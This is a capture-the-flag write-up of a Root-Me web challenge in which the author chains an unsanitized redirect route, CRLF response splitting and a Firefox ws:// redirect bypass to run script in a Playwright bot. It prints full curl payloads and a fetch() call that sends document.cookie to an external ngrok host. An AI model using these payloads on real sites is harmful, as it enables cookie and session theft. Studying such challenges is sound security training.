



# Custom HTTP Server (day8)

<p align="justify">In this web challenge the goal was to attack a javascript website and retreive the flag. No informations were given about the way to process nor the location of the flag, but application source code was provided (attached to this repo). </p>

<p align="center"></p>

<p align="justify">After a few read of the source code I spoted the snippet below giving me informations about the way I could have retreived the flag :</p>

````javascript
const cookie = {
        name: 'FLAG',
        value: 'RM{REDACTED}',
        domain: '127.0.0.1',
        path: '/',
        httpOnly: false,
        secure: false,
      };
````

<p align="justify">Indeed the flag was actually javascript bot's cookie (playright) set on the local domain. As a matter of fact; the website offered a report method (in the file app.js : /api/report) in which it was possible to send an url to the bot, so that it could have checked it and as result being trapped. Hence to solve this challenge I had to find a way to exfiltrate the cookie through XSS attack.  The schema of the challenge had been the following one : </p>

- First, I had to find a way to steal my own cookie , craft a valid payload
- Then I had to adjust payload for firefox browser especially, because playright bot works over firefox
- Finally I had to submit the payload on the report api so that the bot could have been trapped and sent its cookies

<p align="justify">At first I thought I had to bypass filter applied to XSS API as shown in the code snippet below. But after a few tries I gave up because of the sanitizer which was too restrictive (the filter is availabe under sanitizer.js in the source code zip) :</p>

````javascript
router.get('/api/xss', async (req, res) => {
  try {
      const { html } = req.query;
      const sanitized = Sanitizer.xss(html);
      res.html(sanitized);
  } catch (err) {
      res.badRequest();
  }
});
````

<p align="justify">I finally spoted the redirect feature below, in which user input wasn't cleared nor processed; meaning it could have been exploited for injection and eventualy cross site scripting payload injection. Which looked interesting at this point : </p>

````javascript
router.get('/api/redirect', (req, res) => {
  const { url } = req.query;
  if (url) {
    res.redirect(url);
  } else {
    res.badRequest();
  }
});
````

<p align="justify">In this route, the user input was used to set the Location header for redirecting properly. Because of the lack of filters/CSP on the user input, it was possible possible to inject the parameter to send the bot onto an external website. That's what I tried; I deployed a server and made the bot fetching it. It came useless because cookie's bot was defined on 127.0.0.1 meaning the bot was fetching my server with document.cookie variable empty. After a few read, I came up with the idea of using \n\r chars to overwritte redirect page thanks to this insightful article about http response splitting <a href="https://blog.detectify.com/industry-insights/http-response-splitting-exploitations-and-mitigations/">doc</a>. On burp browser (chrome based) the exploit worked well and I was able to steel my own cookies with the following payload : </p>

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
Actually, \r\n chars triggered a 302 page meaning that page had been found on the server and well overwritten. At this point it was satisfying insofar as the payload was ran on the target domain: 

<p align="center"></p>

<p align="justify"> Nonetheless when I tested the payload on firefox, it only triggered a redirect loop leading to abortion by firefox itself after too many redirections. After searching for known bypass I found (thanks Vic_V2 !) this documenation <a href="https://www.gremwell.com/firefox-xss-302">doc</a>, in which the loop redirect issue had been solved using websocket in Location headers. Hence, I adjusted my payload but faced a last obstacle , the CORS headers. To solve this problem, I added the following parameters to fetch my external server and to get around CORS restrictions: </p>

````javascript
fetch('http://7.tcp.eu.ngrok.io:18440/',
        {
                methode: 'POST',
                mode: 'no-cors',
                body: document.cookie
        }
)
````

Finally I came up with the final paylaod below :

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=ws://google.com%0D%0AContent-Type%3A%20text%2Fhtml%20%0D%0A%0D%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%2C%20%7Bmethode%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20document.cookie%7D%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
After opening a listening port, I finally received the flag : 

<p align="center"></p>

Flag : _RM{Damnn_Chrome_And_Firefox_4re_S0_different}_ , thanks _Elweth_ for this challenge and a massive thanks to _Vic_V2_ for helping me out troubleshooting !

